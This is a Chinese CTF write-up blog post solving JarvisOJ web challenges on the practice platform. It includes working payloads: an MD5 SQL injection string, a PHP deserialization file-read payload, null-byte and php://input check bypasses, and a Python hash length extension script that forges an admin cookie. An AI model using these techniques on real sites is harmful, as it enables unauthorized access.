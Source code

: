 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      JarvisOJ-WEB-Writeup    # 标题
subtitle:   一只 web 狗在成长        #副标题
date:       2018-09-15              # 时间
author:     RTL                     # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - CTF
  - Web
---
```


# JarvisOJ-WEB-Writeup

## PORT51

- [题目地址](http://web.jarvisoj.com:32770/)

- curl 可以指定使用本地端口来访问 [curl可添加的参数](https://fmhelp.filemaker.com/help/16/fmp/zh/index.html#page/FMP_Help/curl-options.html)
- ![port51](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-PORT51.png?raw=true)

## Localhost

- [题目地址](http://web.jarvisoj.com:32774/)

- 了解一下 request 中的 x-forwarded-for 参数
- ![localhost](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-localhost.png?raw=true)

## Login

- [题目地址](http://web.jarvisoj.com:32772/)

- 随便发了个请求，发现了一个hint
- ![login](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-Login.png?raw=true)
- sql注入问题，但是有md5，这该怎么构造呢，一开始想直接闭合括号，但是php不管输入什么字符串，由于没有..连接，都会优先执行md5()，所以网上搜到了一篇[博客](https://blog.csdn.net/greyfreedom/article/details/45846137)

- 学到了 ffifdyop 是个 nb 字符串
- ![loginflag](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-LoginFlag.png?raw=true)

## 神盾局的秘密

- [题目地址](http://web.jarvisoj.com:32768/)

- 打开，加载好慢...
- 抓包，发现图片 src 的 get 参数 ![shield](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-Shield-1.png?raw=true)
- base64解码 "c2hpZWxkLmpwZw==" -> "shield.jpg"
- 尝试查看 index.php ![shield](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-Shield-2.png?raw=true)
- 发现了 shield.php 转码后查看 ![shield](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-Shield-3.png?raw=true)
- 与 index.php 同时查看后使用以下代码构造 payload

```php
<?php
  class Shield {
    public $file = "pctf.php";
  }
  $chybeta = new Shield();
  print_r(serialize($chybeta));
  ?>
```

- 得到 flag ![shield](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-Shield-4.png?raw=true)

## In A Mass

- 习惯性的查看页面源代码 发现源码在 index.phps 里

```php
<?php

error_reporting(0);
echo "<!--index.phps-->";

if(!$_GET['id'])
{
  header('Location: index.php?id=1');
  exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
  echo 'Hahahahahaha';
  return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
  require("flag.txt");
}
else
{
  print "work harder!harder!harder!";
}
?>
```

- 分析一波，id 需要等于0，但是需要直接等于 0 会在第一个 if 出问题，所以使用十六进制 0x0
- a 的话，本想使用 ssrf来访问，但是捣鼓半天发不出请求，所以使用 php 伪协议 a=php://input，将内容写在post里
- b eregi 函数可以使用 %00 中断，而 strlen 不会
- 构造 payload "web.jarvisoj.com:32780?id=0x0&a=php://input&b=%0011111"
- ![inamass](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-InAMass-1.png?raw=true)

- web.jarvisoj.com:32780/^HT2mCpcvOLf  hi666? 猜测是 sql 注入
- 过滤了空格、关键词，但是难住我吗？确实难住了，查了一波资料，构造 payload
- ![inamass](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-InAMass.png?raw=true)

## RE

- 很迷...没想到是 mysql 的函数库
- ![re?](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-RE.png?raw=true)

## flag 在管理员手中

- burp 拦截，发现 ![flaginadmin](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-FlagInAdmin-1.png?raw=true)
- 扫一下目录，发现 index.php~
- 尝试打开失败，linux 下 file 发现是 vim 文件， recover ![flaginadmin](https://github.com/Chris-Ju/Picture/blob/master/JarvisOJ-FlagInAdmin-2.png?raw=true)

```php
<!DOCTYPE html>
<html>
<head>
<title>Web 350</title>
<style type="text/css">
  body {
    background:gray;
    text-align:center;
  }
</style>
</head>

<body>
  <?php
  $auth = false;
  $role = "guest";
  $salt =
  if (isset($_COOKIE["role"])) {
    $role = unserialize($_COOKIE["role"]);
    $hsh = $_COOKIE["hsh"];
    if ($role==="admin" && $hsh === md5($salt.strrev($_COOKIE["role"]))) {
      $auth = true;
    } else {
      $auth = false;
    }
  } else {
    $s = serialize($role);
    setcookie('role',$s);
    $hsh = md5($salt.strrev($s));
    setcookie('hsh',$hsh);
  }
  if ($auth) {
    echo "<h3>Welcome Admin. Your flag is";
  } else {
    echo "<h3>Only Admin can see the flag!!</h3>";
  }
?>

</body>
</html>

```

- 这是？[哈希拓展攻击](https://danaive.github.io/2016/12/06/0x01/)...
- salt 长度不知道哇
- 对于密码学我还是懵逼的，网上搜到了脚本
- 安装 hash_extender

```shell
git clone https://github.com/iagox86/hash_extender  
cd hash_extender  
make
```

```py
# -*- coding:utf-8 -*-
from urlparse import urlparse
from httplib import HTTPConnection
from urllib import urlencode
import json
import time
import os
import urllib

def gao(x, y):
      #print x
      #print y
  url = "http://web.jarvisoj.com:32778/index.php"
  cookie = "role=" + x + "; hsh=" + y
      #print cookie
  build_header = {
    'Cookie': cookie,
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:44.0) Gecko/20100101 Firefox/44.0',
    'Host': 'web.jarvisoj.com:32778',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
  }
  urlparts = urlparse(url)
  conn = HTTPConnection(urlparts.hostname, urlparts.port or 80)
  conn.request("GET", urlparts.path, '', build_header)
  resp = conn.getresponse()
  body = resp.read()
  return body

for i in xrange(1000):
  print i
  # secret len = ???
  find_hash = "./hash_extender -d ';\"tseug\":5:s' -s 3a4727d57463f122833d9e732f94e4e0 -f md5  -a ';\"nimda\":5:s' --out-data-format=html -l " + str(i) + " --quiet"
  #print find_hash
  calc_res = os.popen(find_hash).readlines()
  hash_value = calc_res[0][:32]
  attack_padding = calc_res[0][32:]
  attack_padding = urllib.quote(urllib.unquote(attack_padding)[::-1])
  ret = gao(attack_padding, hash_value)
  if "Welcome" in ret:
    print ret
    break
```